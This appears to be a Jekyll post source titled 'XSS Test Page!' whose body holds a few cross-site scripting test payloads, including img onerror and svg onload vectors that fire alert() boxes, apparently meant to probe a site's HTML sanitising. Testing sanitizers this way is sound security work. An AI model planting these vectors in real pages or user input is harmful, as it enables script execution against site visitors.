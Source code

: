 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



<xml:namespace prefix="t"><svg><style>&lt;img/src=x onerror=alert(1)// </b> 
“><svg/onload=alert(2)>”@x.y
